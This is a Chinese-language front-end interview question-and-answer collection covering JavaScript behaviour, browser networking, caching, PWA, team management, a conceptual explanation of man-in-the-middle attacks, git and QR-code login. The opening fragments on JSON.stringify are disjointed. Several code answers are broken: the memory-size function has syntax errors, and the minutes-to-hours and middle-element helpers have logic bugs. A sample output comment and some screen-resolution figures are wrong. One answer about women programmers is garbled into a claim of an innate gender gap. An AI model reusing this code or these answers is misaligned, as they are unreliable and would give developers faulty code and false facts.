实现深拷贝最简单粗暴的方式就是序列化：JSON.parse(JSON.stringify())，这个方式实现深拷贝会因为序列化的诸多特性从而导致诸多的坑点

JSON.stringify() 第九大特性
所有以 symbol 为属性键的属性都会被完全忽略掉，即便 replacer 参数中强制指定包含了它们。

```javascript
JSON.stringify({ [Symbol.for("json")]: "stringify" }, function(k, v) {
    if (typeof k === "symbol") {
      return v;
    }
  })

// undefined
```

> ```
> JSON.stringify
> ```

```javascript
var obj = {
 name: 'Jeskson',
 age: 12,
};

var json = JSON.stringify(obj);
// {"name":"Jeskson","age":12}

// {"name":"Jeskson","age":12}
console.log(JSON.stringify(obj,["name","age"]));
```

1. JSON.stringify

```javascript
let foo = { a: 2, b: function() {} };JSON.stringify(foo);// "{ "a": 2 }"
```

JSON.stringify函数将一个 JavaScript 对象转换成文本化的 JSON。不能被文本化的属性会被忽略。foo中属性b的值是函数定义，没有被转换而丢失。

## 35.举例说明JS鼠标事件有哪些

- click 单击
- dblclick 双击
- mousedown 鼠标按下
- mouseup 鼠标松开
- mouseover 鼠标悬浮
- mouseout 鼠标离开
- mousemove 鼠标移动
- mouseenter 鼠标进入
- mouseleave 鼠标离开

## 36.如何判断一个元素文本是否换行

~~~javascript
var target = document.querySelector('.wrap');
var orgStyle = target.getAttribute('style');
// 获取当前元素的 line-height 值
var lineHeight = window.getComputedStyle(target).lineHeight;
// 如果是 normal 就换为 px 值
if (lineHeight === 'normal') {
  var temp = document.createElement('div');
  temp.innerText = "字";
  document.body.appendChild(temp);
  lineHeight = temp.offsetHeight + 'px';
  document.body.removeChild(temp);
}
// 让元素高度等于其 line-height 高度
target.style.height = lineHeight;
// 然后便可判断出内容是否超出其容器，即是否已换行
if (target.offsetHeight < target.scrollHeight) {
  console.log('该元素里的文本换行了');
} else console.log('没换行');
orgStyle && target.setAttribute('style', orgStyle);
~~~

## 37.解释下如下代码的意图:

代码为：`Array.prototype.slice.apply(arguments)`

回答1：

- `arguments` 为类数组对象，并不是真正的数组。
- `slice`可以实现数组的浅拷贝
- 由于 `arguments`不是真正的数组，所以没有`slice`方法，通过`apply`可以调用数组对象的slice方法，从而将`arguments` 类数组转换为数组

回答2：

这个题目出的不太好 我想当然的认为arguments是一个形参了

```javascript
function getArguments(){　 
　//将参数转为一个数组　 
　var args = Array.prototype.slice.apply(arguments);
  console.log(args)
} 
getArguments(11,12); // [11,22]
```

很明显的目的为，将函数内部可用的 `arguments` 对象 转化为一个真正意义上的数组

## 38. JS可以用中文作为变量命名吗？为什么

* 可以！因为JS支持 Unicode, 像PHP就不能。
* 可以，因为JS中的标识符可以是utf16字符;

## 39.写个方法近似计算指定数组或对象占用内存的大小

```javascript
 function sizeOfObject(obj)){
       if(object == null){
           return 0
       }
       var bytes = 0
       for (var key in obj) {
           if (!Object.hasOwnProperty.call(obj, key)) {
               continue
           }
           bytes += sizeof(key)
           try {
               bytes += sizeof(obj[key])
           } catch (ex) {
               if (ex instanceof RangeError) {
                   bytes = 0
               }
           }
       }
       return bytes
   }
   function sizeOf(obj){
       var objType = typeof obj
       switch(objType){
           case 'string':
               return obj.length*3;
           case 'boolean'
               return 1;
           case 'number':
               return 8;
           case 'object':
               if(Array.isArray(obj)){
                   return obj.map(sizeOf).reduce(acc,curr)=>acc+curr,0)
               }else{
                   return sizeOfObject(obj)
               }
           default:
               return 0
       }
   }
```

- [参考文章](https://www.cnblogs.com/sefaultment/p/11518625.html)

## 40.写个方法判断数组对象中是否存在某个对象

[js判断对象数组中是否存在某个对象](https://www.cnblogs.com/zhumengke/articles/13431478.html)

## 41.JS的数组/对象在内存中分别是如何存储的



## 42.判断`[].__proto__.__proto__ === {}.__proto\__`结果并解释为什么

`[].__proto__.__proto__ === ({}).__proto__` 的结果是 `true`。
`[].__proto__` 指向 `Array.prototype` 而 Array 的原型对象本身也是一个对象，所以它的 `__proto__` 指针会指向 `Object.prototype`，所以 `[].__proto__.__proto__ `最终指向 `Object.prototype`。
`({}).__proto__` 一个普通对象的 `__proto__` 属性当然会指向 Object 的原型对象 `Object.prototype`。

## 43.在Chrome中JS的数组占用了多少内存

[在 Chrome 中 JavaScript 数组到底占用了多少内存？](https://segmentfault.com/a/1190000010210269)

## 44.使用JS生成1-10000的数组

1. 循环处理
2. 使用 `Array.from` 把一个 iterator 数据转换成真正的数组

```javascript
Array.from(new Array(10001).keys()).slice(1)
```

## 45.你是如何排查JS内存泄漏的

用chrome的 dev tool, performance 录制比较卡顿的地方, 来分析具体的代码, 也可以使用memory来观察内存的增长。

## 46.写一个方法获取指定数组中间的值（一个或者两个）

```javascript
if (Array.prototype.getMiddleArray !== 'function') {
    Array.prototype.getMiddleArray = function() {
        let middleStartIndex = Math.floor(this.length / 2),
            middleEndIndex = Math.ceil(this.length / 2);
        if (middleStartIndex === middleEndIndex) {
            middleStartIndex--;
            middleEndIndex++;
        }
        return this.slice(middleStartIndex, middleEndIndex);
    }
}

[1,2,3].getMiddleArray()  // [2]
[1,2,3,4].getMiddleArray()  // [2,3]
```

## 47.写一个方法把分钟转化为时分，例如：150->02:30

~~~~javascript
function minuteToHour(minute) {
	if (typeof minute !== 'string' && typeof minute !== 'number') return `00:00`;
	const hour = parseInt(Math.floor(minute / 60));
	const minutes = parseInt(minute % 60, 10);
	return `${hour > 10 ? hour : `0${hour}`}:${minutes > 10 ? minutes : `0${minutes}`}`;
}
~~~~

## 48.用JS怎么实现图片马赛克效果

```javascript
// 使用canvas获取ImageData，然后遍历修改像素数据实现

class Main {
    init() {
        var cvs = document.getElementById("canvas");
        var ctx = cvs.getContext("2d");
        var _img = new Image();
        _img.src = "./img/loginbg.jpg";
        _img.onload = () => {
            ctx.drawImage(_img, 0, 0);
            let _db = ctx.getImageData(0, 0, cvs.width, cvs.height);
            ctx.clearRect(0,0,640, 1136);
            ctx.putImageData(this.toPixelate(_db, ctx, 5), 0, 0);
        }
    }

    toPixelate(imgDb, ctx, lv) {
        if (!lv) {
            lv = 3;
        }
        let rsl = ctx.createImageData(imgDb.width, imgDb.height);
        let _db1 = [];
        for(let i=0;i<imgDb.data.length;i+=4) {
            _db1.push([
                imgDb.data[i], imgDb.data[i+1], imgDb.data[i+2], imgDb.data[i+3]
            ])
        }
        for (let i=0;i<imgDb.width;i++) {
            for (let j=0;j<imgDb.height;j++) {
                let fi = i-(i%lv);
                let fj = j-(j%lv);
                _db1[j*imgDb.width+i] = [..._db1[fj*imgDb.width+fi]];
            }
        }

        _db1.forEach((v, i) => {
            const k = i*4;
            rsl.data[k] = v[0];
            rsl.data[k+1] = v[1];
            rsl.data[k+2] = v[2];
            rsl.data[k+3] = v[3];
        })

        return rsl;
    }

}

var main;
window.onload = function () {
    main = new Main();
    main.init();
}
```

## 49. AJAX请求中为何会出现OPTIONS请求

[OPTIONS](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Methods/OPTIONS)
CORS会在请求前先发送OPTIONS请求

这种方式被称为预检请求,所谓预检请求主要是因为浏览器的同源策略限制，浏览器限制跨请求一般有两种方式：1、浏览器限制跨域请求；

2、跨域请求可以正常发起但是返回的结果被浏览器给屏蔽了；

一般浏览器是根据第二种情况进行同源策略限制，但是虽然数据被浏览器屏蔽了跨域请求有可能已经对服务器数据库里面的数据产生了影响，为了规避这种情况，在这之前先进性一次预检请求，看服务器是否允许进行跨域请求，如果允许则携带数据进行真实请求。

## 50.Math.ceil()、Math.round()、Math.floor()三者的区别是什么

上取整 四舍五入 下取整

# 软技能

## 1.TCP和UDP属于计算机网络中的哪一层

传输层 定义传输数据的协议端口号，以及流控和差错校验。协议有：TCP UDP，数据包一旦离开网卡即进入网络传输层。

## 2.说下你对沉浸式体验的理解

[沉浸式体验是什么意思？](https://zhuanlan.zhihu.com/p/252881657)

## 3.你是如何测试代码的性能的？都有用到哪些工具

[前端性能测试工具整理简介_性能测试工具都有哪些?](https://www.cnblogs.com/ypppt/p/13251826.html)

## 4. post和get有什么区别？它们分别在什么时候用到

* post将数据存在http请求体里，没有大小限制
* get将数据存在url里，一般最多4kb
* post主要用于向服务端提交数据
* get主要用于用服务端请求数据

## 5. 你有考过相关的技能证书吗

## 6.你了解什么是物联网吗

物联网（ IoT ，Internet of things ）即“万物相连的互联网”，是互联网基础上的延伸和扩展的网络，将各种信息传感设备与互联网结合起来而形成的一个巨大网络，实现在任何时间、任何地点，人、机、物的互联互通。
物联网是新一代信息技术的重要组成部分，IT行业又叫：泛互联，意指物物相连，万物万联。由此，“物联网就是物物相连的互联网”。这有两层意思：第一，物联网的核心和基础仍然是互联网，是在互联网基础上的延伸和扩展的网络；第二，其用户端延伸和扩展到了任何物品与物品之间，进行信息交换和通信。因此，物联网的定义是通过射频识别、红外感应器、全球定位系统、激光扫描器等信息传感设备，按约定的协议，把任何物品与互联网相连接，进行信息交换和通信，以实现对物品的智能化识别、定位、跟踪、监控和管理的一种网络。

## 7.开发触摸屏的页面时应该注意些什么问题

[触摸屏的难点与注意事项](http://blog.11467.com/b242706.htm)

## 8.把HTML、CSS、JS这三个分别做个比喻，你会把它们比喻成什么呢

* HTML：人的骨架
* CSS: 人的皮肤（衣服）
* JS: 人的行为

## 9.你觉得前端有必要懂后端语言吗

前端开发通常需要和后端人员一起配合完成项目；所以在与后端的交流中是有必要理解后端语言的开发特点，这样沟通更容易达成一致；可以学习python，go，java，php等流行的后端语言。

## 10.你是如何看待女程序员的

工作不分男女，而且是脑力劳动，女生和男生天生的差距。

## 11.你是怎样对首屏进行优化的呢

[关于首屏性能优化的总结【原创】](https://www.cnblogs.com/libin-1/p/6532509.html)

* 使用webpack进行代码分隔，使用时才加载

* 浏览器缓存
* 懒加载
* CDN

[参考文章](https://blog.csdn.net/qq_40128367/article/details/82920370)

## 12.你知道什么是微服务吗

- 微服务架构风格是一种使用一套小服务来开发单个应用的方式途径，
  每个服务运行在自己的进程中，并使用轻量级机制通信，通常是HTTP API，
  这些服务基于业务能力构建，并能够通过自动化部署机制来独立部署，
  这些服务使用不同的编程语言实现，以及不同数据存储技术，并保持最低限度的集中式管理。
- [参考文章](https://blog.csdn.net/kaikai0803/article/details/100935606)

## 13.如果让你去管理一个10人的前端团队，你该怎么管理？第一步先干嘛

[如何在小型前端团队的管理中踩坑](https://juejin.cn/post/6844904049163108360)

先看他们的简历，对每个人的工作经验、能力圈、技术栈做到心中有数。

## 14.你认为作为一个管理岗位，最重要的是什么？请说出三点

制度，规范，执行力

## 15. 你知道PMP证书吗

PMP（Project Management Professional）指项目管理专业人员资格认证。它是由美国项目管理协会Project Management Institute(PMI)发起的，严格评估项目管理人员知识技能是否具有高品质的资格认证考试。其目的是为了给项目管理人员提供统一的行业标准。作为项目管理资格认证考试，已在国际上树立了其权威性。
中国官网：http://exam.chinapmp.cn/
百科链接https://baike.baidu.com/item/PMP/587680?fr=aladdin

## 16.在页面中引入静态资源文件，为什么静态资源文件改变后，再次发起请求还是之前的内容，没有变化呢

* 缓存还没过期，cache-control: max-age 还没到

* 协商缓存了，校验时服务器返回了相同的 e-tag 和 last-modified
* 非强制性刷新，如果有缓存就会使用缓存
* [深入理解浏览器的缓存机制](https://www.cnblogs.com/davidwang456/articles/10668422.html)

## 17. Chrome浏览器允许的一次性最大TCP并发链接

- Chrome浏览器最多允许对同一个域名Host建立6个TCP连接
- [浏览器HTTP请求并发数和TCP连接的关系](https://blog.csdn.net/u012193330/article/details/99713563)

## 18.你知道网站的PV、UV、IP分别代表什么吗

- PV 网站的访问量，也就是网站的点击量或者浏览量，用户每打开一次页面就加1，刷新也加1
- UV 立访客的意思，访问网站的一台设备是一个访客，网站判断是否为同一台电脑
- IP 独立IP数，统计有多少个ip访问了网站

## 19.你知道网站运营的指标有哪些吗

- 网站转换率：进行了相应的动作的访问量/总访问量；
- 回访者比率：回访者数/独立访问者数
- 积极用户比率：访问超过N页的用户/总的访问数；
- 忠实访问者比率：访问时间在N分钟以上的用户数/总用户数；
- 忠实访问者量：大于N分钟的访问页数/总的访问页数；
- [参考回答](https://zhidao.baidu.com/question/542013035.html)

## 20. 长链接在http2中与http/1.1协议中有什么区别

- http2 中的长链接是一个tcp连接可以并发多个请求
- http1.1 中的长链接是一个tcp连接多次使用，使用时多个请求串行执行
- http1.0 是每个请求创建一个tcp连接，使用完毕后销毁，再此使用时，重建
- [参考资料](https://www.cnblogs.com/aspirant/p/10833143.html)

## 21.你觉得前端有必要写文档吗

- 有必要，文档不仅自己后续开发能看，而且是与其他开发人员沟通的一个重要资料

业务名词文档、开发规范文档（git/目录/语言规范/测试部署要点）、
BUG 库、公共方法库、知识分享库。

都有写，怎么说呢，写完很快乐。
一方面是会发现些细节可以研究学习，另一方面是从代码世界中稍稍脱离。

至于别人用不用得上其实很难说，因为并不是他自己的知识，
所以多半是当教科书用，有时间教就按上面的教，没时间就等个契机用文档告诉对方这里有过坑。

## 22.图片是不是越小越好？如何优化图片呢

图片是不是越小越好或者越大越好取决于要求展示的效果，通常图片大会更清晰，渲染更慢；

优化图片：

* 切割成多张拼接 
* 懒加载 
* CDN部署 
* 矢量图及iconfont等

## 23.说说轮询、长轮询、长连接、socket连接、WebSocket的区别

- 轮询：客户端定时不断的发ajax请求，服务端每次都返回
- 长轮询：客户端发送一个ajax请求，服务hold住有信息就返回
- 长连接：通过隐藏的iframe的src设置成长链接地址，不断的接收服务端的信息
- socket连接：面中内嵌入一个使用了Socket类的 Flash
  程序JavaScript通过调用此Flash程序提供的Socket接口与服务器端的Socket接口进行通信，
  JavaScript在收到服务器端传送的信息后控制页面的显示
- WebSocket:协议本质上是一个基于 TCP 的协议。为了建立一个 WebSocket 连接，
  客户端浏览器首先要向服务器发起一个 HTTP 请求，这个请求和通常的 HTTP 请求不同，
  包含了一些附加头信息，其中附加头信息”Upgrade: WebSocket”
  表 明这是一个申请协议升级的 HTTP 请求，
  服务器端解析这些附加的头信息然后产生应答信息返回给客户端，
  客户端和服务器端的 WebSocket 连接就建立起来了，双方就可以通过这个连接通道自由的传递信息，
  并且这个连接会持续存在直到客户端或者服务器端的某一方主动的关闭连接。
- [参考资料](https://blog.csdn.net/sunnyjingqi/article/details/100655662)

## 24.前端资源发布路径怎么实现非覆盖式发布（平滑升级）

- 将打包的资源文件上传至oss服务器上，然后页面中引用这些文件(webpack可以设置发布目录)
- 修改的文件引用时要使用数据摘要控制版本
- [参考资料](https://www.zhihu.com/question/20790576/answer/32602154)

## 25.你英语怎么样？不用全文翻译能正常阅读外文文档吗

- 一般吧，遇到生僻单词需要查字典

## 26.你最近在忙什么

投简历，面试。

## 27.你觉得一线城市和三四线城市的区别在哪？你比较喜欢哪个

* 一线城市有较好的公共资源和个人发展空间，三四线城市的公共资源相对而言较弱些，个人发展稍有局限性。
* 这个只取决于个人的能力和意志，不取决于喜不喜欢

## 28.举例说明你对时间复杂度和空间复杂度的理解

如果参加过算法比赛的同学对这个应该会多一些感觉。ACM比赛算法考察的2个指标就是时间复杂度和空间复杂度。

执行了N次才可以拿到结果，那么时间复杂度就是N，但是假如需要N*N次嵌套循环才可以拿到结果，那么时间复杂度就是N方。

空间复杂度与时间复杂度相似，但是考察的是空间上的开销，不如一个循环N次开辟内存空间，创建变量，则空间复杂度就是N

## 29.请问单元测试和集成测试有什么区别

- 单元测试的通常定义是纯粹测试单个功能单元的测试。
  它不会有副作用。定义良好的单元测试, 在没有其他更改的情况下运行几次,
  每次都会产生完全相同的结果。
- 集成测试是一种更为复杂的测试。正如它们的名称所表明的,
  集成测试检查系统的几个部分, 以确保在集成时, 这些部分的行为符合预期。
  这些测试通常涵盖从数据库调用和读取等内容, 甚至涉及对另一台服务器的调用。
  通常可以在数据库中插入虚拟数据, 这对于测试是应该的。如果数据库架构或 url 终结点发生更改,
  这可能会导致脆弱的测试。可以使用内存中的数据库来测试集成测试中的数据库交互。

## 30.说说你对PWA的理解

- PWA (progressive Web App) 渐进增加web应用程序，使用多种技术来增强web app等功能，
  能够模拟一些原生app的功能，在移动端利用标准化框架，让网页应用呈现和原生应用相似的体验
- 利用 service worker 拦截http请求，所以可以在断网环境下使用
- PWA 现阶段浏览器兼容性较差（chrome支持)

## 31.PWA如何改变我们的移动体验

谷歌浏览器左上角“应用”里面的就是 PWA 应用，有点点像在浏览器上安装了个 app，也就是所谓的加到主屏，另外增加了缓存读取/通知推送这些东西，但如今也基本还是网页的那套东西，相比小程序还少了一大堆 sdk，只是不局限于微信可以跑在浏览器上。如果你觉得小程序好用，那 PWA 就将是类似的好用。

## 32.你了解什么是极限编程吗

- 开发满足客户需要且确实是客户需要的软件
- 强调团队合作。经理、客户和开发人员都是团队中的一员，他们都应该为了开发出高质量的软件而努力
- 从四个基本的方面对软件项目进行改善：交流，简易，反馈和勇气
- 程序员同客户交流，同他们的同事交流；他们的设计简单而干净；
  他们通过测试来得到反馈；他们根据变化修改代码，并争取尽可能早地将软件交付给客户。
  在此基础上，XP程序员能够勇于面对需求和技术上的变化。
- 搭积木式开发，逐渐增强

核心价值观：沟通、简单、反馈、勇气、尊重。
开发方式的一种，讲究任务小，方便反复测试，即时反馈需求与问题，主动接活担责。

最简单地就是一个白板，一个团队，一堆便利贴，有时还有个锣。
聊完就自己拆分任务贴白板，做完就去敲锣交付并接下一单，过程中任何需求问题及时沟通。

## 33.你们前端项目是怎么做监控（埋点）的？都监控哪些维度的数据呢

- 埋点的三种方式：代码埋点，可视化埋点 和无埋点
- 用户行为 ，网页性能，异常 三个方面的数据
- [参考文章](https://juejin.im/post/5b62d68df265da0f9d1a1cd6)

## 34.解释下后端渲染与前端渲染有什么区别呢

- 后端渲染是后端出数据和模板组合生成html，前端只需要解析html即可显示，所以利于SEO优化，首屏加载快
- 前端渲染是，加载各组件资源后，调用后端接口，渲染页面，通常是SPA页面，只加载一次主页面，不利于SEO优化

## 35.前端做单元测试时基本原则有哪些

- 测试代码时，只考虑测试，不考虑实现
- 测试数据尽量模拟现实
- 测试时要考虑边界条件
- 对复杂重点核心代码重点测试

## 36.举例说明前端的代码是如何解耦的

- CSS都写在样式文件中
- JS模块化
- 前后端分离(HTML和后端数据分离)

## 37. 你为什么希望到我们公司工作

* 工资高，待遇好才来

## 38.说说你对Retine高清屏的理解，它和2k屏有什么区别

- retine 屏幕的每英寸像素(PPI)大于200时，人看屏幕无颗粒感时称为视网膜屏
- 2k屏指的是分辨率达到2000像素（长会超过2000，宽要超过1000）一般为2048*1080;
- 两者都代表较高的分辨率

## 39.你有使用过2k屏或4k屏吗？说说你对它们的理解

- 2k 屏幕分辨率 2048\*1024 1980\*1080
- 4k 屏幕分辨率 3840*2160

## 40. 现有几名候选人，说说你认为你的最大优势是什么

* 勤奋爱专研，生活有规律

## 41.你认为一个友好的错误处理机制应该满足哪些条件

- 报错信息中要包含错误等级，错误原因,错误位置，错误影响,下一步建议等。

## 42.说说你遇到过最大的bug是什么？怎么解决的

我在写vue的一个项目的时候，因为在引入个人封装的Vue的插件的时候，出现了一个调试了多半天才解决的bug。因为我写的插件也依赖了其他的第三方模块，但是在注册他们的时候是在install函数外部安装的，当这个插件被别的项目引入的时候，又被注册了一次，所以最终运行的项目就相当于引入了两次Vue，结果就报错了，具体这个错误我当时没有存下来，现在也没办法给大家说的很具体，等我找到这个报错的具体信息我会再分享出来，遇到过此问题的同学就可以不用花很长的时间踩坑了。

## 43.你知道什么是中间人攻击吗？它产生的原因是什么？有什么危害？如何避免

[什么是中间人攻击？如何避免？](https://blog.csdn.net/Jacksun_huang/article/details/90053486)

你可能听说过“中间人攻击（MiTM）”这个词，你可能甚至对它有一个模糊的概念。但是，你仍旧会想“到底什么才是中间人攻击”，对吗？让我们来向你解释一下。正如它的名字本身所暗示的，当未授权的实体将自己置于两个通讯系统之间并试图截获正在传递的信息时，便是发生这类攻击的时候。简单的来说，MiTM攻击是现代版的窃听。

我们几分钟时间内就可以进一步了解中间人（MiTM）攻击，但是首先看看你周围的事物吧。看看你的智能手机，看看它里面的app，看看你的PC，看看这些互相八卦的智能连接设备，看看你现在正在访问的网站。是什么在驱动着所有这些东西？答案是数据/信息。数据的一个本质特征是它能够四处传播。无论它是从一个PC到另一个PC，一个服务器到另一个服务器，还是一个国家到另一个国家——数据没有边界。

不幸的是，所有这些传播都无可避免地引入了安全和隐私问题。当数据离开一个端点前往另一个端点时，传输的期间便是对数据失去控制的时候。当一个攻击者将自己置于两个端点并试图截获或/和阻碍数据传输时，便称为中间人（MiTM）攻击。用通俗的话讲，这很像偷听。

没错，当你试图在不让两个人知道的情况下，偷听他们的讲话，这就像是中间人攻击。

**因此，到底什么是中间人攻击？**

当数据传输发生在一个设备（PC/手机）和网络服务器之间时，攻击者使用其技能和工具将自己置于两个端点之间并截获数据；尽管交谈的两方认为他们是在与对方交谈，但是实际上他们是在与干坏事的人交流，这便是中间人攻击。

总而言之，这是一个诈骗伎俩。

**它是如何工作的？**

谈及MiTM时，并不是只有一种方式可以造成损害——答案是四种！一般说来，有嗅探、数据包注入、会话劫持和SSL剥离。让我们来简要地看一看。

**嗅探**：嗅探或数据包嗅探是一种用于捕获流进和流出系统/网络的数据包的技术。网络中的数据包嗅探就好像电话中的监听。记住，如果使用正确，数据包嗅探是合法的；许多公司出于“安全目的”都会使用它。

**数据包注入**：在这种技术中，攻击者会将恶意数据包注入常规数据中。这样用户便不会注意到文件/恶意软件，因为它们是合法通讯流的一部分。在中间人攻击和拒绝式攻击中，这些文件是很常见的。

**会话劫持**：你曾经遇到过“会话超时”错误吗？如果你进行过网上支付或填写过一个表格，你应该知道它们。在你登录进你的银行账户和退出登录这一段期间便称为一个会话。这些会话通常都是黑客的攻击目标，因为它们包含潜在的重要信息。在大多数案例中，黑客会潜伏在会话中，并最终控制它。这些攻击的执行方式有多种。

**SSL剥离**：SSL剥离或SSL降级攻击是MiTM攻击的一种十分罕见的方式，但是也是最危险的一种。众所周知，SSL/TLS证书通过加密保护着我们的通讯安全。在SSL剥离攻击中，攻击者使SSL/TLS连接剥落，随之协议便从安全的HTTPS变成了不安全的HTTP。

## 44.如何禁止百度爬虫抓取网站

- 网站根目录写入robot.txt 声明爬虫协议[参考文章](https://blog.csdn.net/luckykapok918/article/details/71191928)
- 网站js化(无含有静态数据的标签)
- 服务配置iptables，限制同一ip同一时间多次爬取

## 45. git pull 报错怎么解决

在远端设置无误的情况下，`git pull`出错一般是由于本地有未提交的改动造成的，可以先 `git stash` 将本地的改动暂存，然后 `git pull` 获取最新更新，最后再 `git stash pop`讲改动还原。

## 46.如何迁移仓库，同时保留原有的提交记录和分支

```
git clone --bare 仓库地址
cd 到克隆下来的仓库
git push --mirror 新建的仓库地址
```

## 47.你上家公司是怎么管理版本的

git

## 48.如果要你定义一个版本号的规则，你该定义成什么样的？说说你的理由

## 49. 说说扫码登陆和扫码支付的原理及流程是什么

扫码登录完整流程
①：用户 A 访问微信网页版，微信服务器为这个会话生成一个全局唯一的 ID，上面的 URL 中 obsbQ-Dzag== 就是这个 ID，此时系统并不知道访问者是谁。

②：用户A打开自己的手机微信并扫描这个二维码，并提示用户是否确认登录。

③：手机上的微信是登录状态，用户点击确认登录后，手机上的微信客户端将微信账号和这个扫描得到的 ID 一起提交到服务器

④：服务器将这个 ID 和用户 A 的微信号绑定在一起，并通知网页版微信，这个 ID 对应的微信号为用户 A，网页版微信加载用户 A 的微信信息，至此，扫码登录全部流程完成

扫码登录看起来神奇，主要是因为微信 APP 扫自家的码会做一些普通二维码软件不会做的额外的操作，那就是将当前已登录的微信和扫出来的 ID 提交到微信服务器，类似的应用还有扫码支付、扫码加公众号等功能。

[扫码支付的实现流程](https://www.cnblogs.com/veggiegfei/p/10425743.html)

## 50.说说你对文件后缀的理解，为什么会有这么多种类型的后缀呢

文件后缀名相当于文件的身份证，知道后缀名就能知道它是哪一类的文件，就知道需要安装什么软件来打开该文件